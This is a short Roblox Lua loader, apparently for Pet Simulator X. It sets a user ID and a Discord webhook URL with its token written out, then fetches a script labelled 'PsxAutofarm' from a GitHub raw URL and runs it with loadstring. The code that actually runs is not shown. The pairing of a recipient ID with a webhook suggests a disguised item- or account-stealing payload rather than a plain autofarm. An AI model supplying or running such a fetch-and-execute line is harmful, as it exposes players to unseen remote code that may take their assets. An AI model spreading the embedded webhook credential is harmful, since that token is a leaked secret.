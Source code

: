 _G.UserID = 1283018578

_G.WebHook = "https://discord.com/api/webhooks/1057107045054156912/rme1ztyKKtoA3kZxv7xckRX94lH01dlvDocxxTCjG_ATLnz-Oe_9X9WrlJfakCTA6oNT"

loadstring(game:HttpGet("https://raw.githubusercontent.com/SilenceScripts/PsxScripts.Lua/main/PsxAutofarm.true"))()
